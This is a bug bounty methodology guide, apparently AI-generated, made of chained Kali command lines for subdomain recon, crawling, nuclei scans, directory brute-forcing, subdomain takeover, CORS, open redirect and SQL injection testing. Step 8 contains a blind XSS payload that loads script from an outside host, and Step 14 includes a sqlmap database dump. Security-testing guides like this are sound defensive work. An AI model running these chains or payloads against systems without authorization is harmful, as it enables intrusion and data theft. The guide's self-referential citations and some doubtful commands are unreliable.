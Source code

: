 # Enhanced Bug Bounty Methodology Guide for Kali Linux

> **Key Enhancement Summary**
> This guide builds upon your existing 14-step methodology, incorporating advanced tool chaining, performance optimizations, and best practices for maximum effectiveness in bug bounty hunting.

## 1. Subdomain Enumeration Phase
```bash
# Step 1: Enhanced Subdomain Discovery
subfinder -d example.com -all -recursive > subdomain.txt
amass enum -d example.com -o amass.txt
cat subdomain.txt amass.txt | anew all_subdomains.txt

# Step 2: Advanced Probe with httpx
cat all_subdomains.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
```

**Optimization Tips:**
- Use `-silent` flag with httpx for cleaner output [[1]](file://___You_are_an___advanced_AI_in_and.txt)
- Increase threads based on your system capacity (200-500) [[1]](file://___You_are_an___advanced_AI_in_and.txt)
- Add `-follow-redirects` for better coverage [[2]](https://osintteam.blog/advanced-techniques-use-cases-of-nuclei-for-bug-bounty-22be32c09d1b#:~:text=How%20to%20Create%20Custom)

## 2. Content Discovery Phase
```bash
# Step 3: Enhanced URL Discovery
katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault \
-hf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

# Step 4: JavaScript File Extraction
cat allurls.txt | grep -E "\.js$" | anew js.txt

# Step 5: Exposure Detection
cat js.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/ -c 30
```

**Performance Tips:**
- Use `-jc` flag in katana for better JavaScript parsing [[1]](file://___You_are_an___advanced_AI_in_and.txt)
- Implement parallel processing with GNU parallel [[2]](https://osintteam.blog/advanced-techniques-use-cases-of-nuclei-for-bug-bounty-22be32c09d1b#:~:text=How%20to%20Create%20Custom)
- Filter out noise with effective exclusions [[1]](file://___You_are_an___advanced_AI_in_and.txt)

## 3. Sensitive Information Discovery
```bash
# Step 6: Enhanced Pattern Matching
cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|_config" > sensitive_files.txt

# Step 7: Directory Enumeration
dirsearch -u https://example.com -e conf,config,bak,backup,smp,old,db,sql,asp,aspx,py,rb,php,bak,bhp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,lock,log,rar,old,sql,sql.gz,sql.zip,tar.gz,smp,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json --threads 50
```

## 4. Vulnerability Detection Phase
```bash
# Step 8: XSS Detection Chain
subfinder -d example.com | \
httpx-toolkit -silent | \
katana -ps -f qurl | \
gf xss | \
bxss -appendMode -payload "<script src=https://xss.report/c/coffinxp></script>"

# Step 9-10: Subdomain Takeover & CORS
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_sst
python corsy.py -i subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```

## 5. Advanced Vulnerability Scanning
```bash
# Step 11-13: Comprehensive Scanning
nuclei -list subdomains_alive.txt -tags cves,osint,tech -c 50
cat allurls.txt | gf lfi | nuclei -tags lfi -c 30
cat allurls.txt | gf redirect | openredirex -p /home/coffinxp/openRedirect/

# Step 14: SQL Injection Chain
subfinder -d testphp.vulnweb.com -all -silent | \
cow | \
urldedupe | \
gf sqli > sql.txt; \
sqlmap -m sql.txt --batch --dbs --risk 2 --level 5 --random-agent | tee -a sqli.txt
```

## Best Practices for Each Phase

### Subdomain Enumeration
- Combine multiple tools (subfinder, amass, assetfinder) [[1]](file://___You_are_an___advanced_AI_in_and.txt)
- Use anew for deduplication [[2]](https://osintteam.blog/advanced-techniques-use-cases-of-nuclei-for-bug-bounty-22be32c09d1b#:~:text=How%20to%20Create%20Custom)
- Implement parallel processing for faster results [[1]](file://___You_are_an___advanced_AI_in_and.txt)

### Content Discovery
- Filter out noise early in the process [[2]](https://osintteam.blog/advanced-techniques-use-cases-of-nuclei-for-bug-bounty-22be32c09d1b#:~:text=How%20to%20Create%20Custom)
- Use custom wordlists based on target tech stack [[1]](file://___You_are_an___advanced_AI_in_and.txt)
- Implement smart crawling depth controls [[2]](https://osintteam.blog/advanced-techniques-use-cases-of-nuclei-for-bug-bounty-22be32c09d1b#:~:text=How%20to%20Create%20Custom)

### Vulnerability Scanning
- Use custom nuclei templates for specific targets [[1]](file://___You_are_an___advanced_AI_in_and.txt)
- Implement rate limiting to avoid blocking [[2]](https://osintteam.blog/advanced-techniques-use-cases-of-nuclei-for-bug-bounty-22be32c09d1b#:~:text=How%20to%20Create%20Custom)
- Validate findings manually to reduce false positives [[1]](file://___You_are_an___advanced_AI_in_and.txt)

## Resource Optimization Tips

### CPU Usage
```bash
# Optimal thread settings
nuclei -c 30  # For normal systems
httpx -threads 200  # For network operations
subzy --concurrency 100  # For takeover checks
```

### Memory Management
- Use output filtering to reduce file sizes [[1]](file://___You_are_an___advanced_AI_in_and.txt)
- Implement incremental scanning for large targets [[2]](https://osintteam.blog/advanced-techniques-use-cases-of-nuclei-for-bug-bounty-22be32c09d1b#:~:text=How%20to%20Create%20Custom)
- Clean temporary files regularly [[1]](file://___You_are_an___advanced_AI_in_and.txt)

## Common Pitfalls and Solutions

1. **Rate Limiting Issues**
   - Solution: Implement delays between requests
   ```bash
   nuclei -rl 100  # Rate limit to 100 requests/second
   ```

2. **False Positives**
   - Solution: Use validation chains
   ```bash
   cat results.txt | nuclei -validate
   ```

3. **Resource Exhaustion**
   - Solution: Implement smart threading
   ```bash
   parallel --jobs 50% 'command {}' ::: inputs.txt
   ```

## Custom Template Creation
```yaml
# Example Nuclei Template
id: custom-vulnerability
info:
  name: Custom Vulnerability Check
  severity: high
requests:
  - method: GET
    path:
      - "{{BaseURL}}/api/endpoint"
    matchers:
      - type: word
        words:
          - "sensitive_data"
```

> **Pro Tips**
> - Always maintain organized output directories
> - Use version control for custom templates
> - Implement logging for all critical operations
> - Regular backup of findings
> - Use screen or tmux for long-running scans

This enhanced methodology provides a robust framework for bug bounty hunting while maintaining efficiency and effectiveness. Regular updates to tools and templates will ensure continued success in vulnerability discovery.
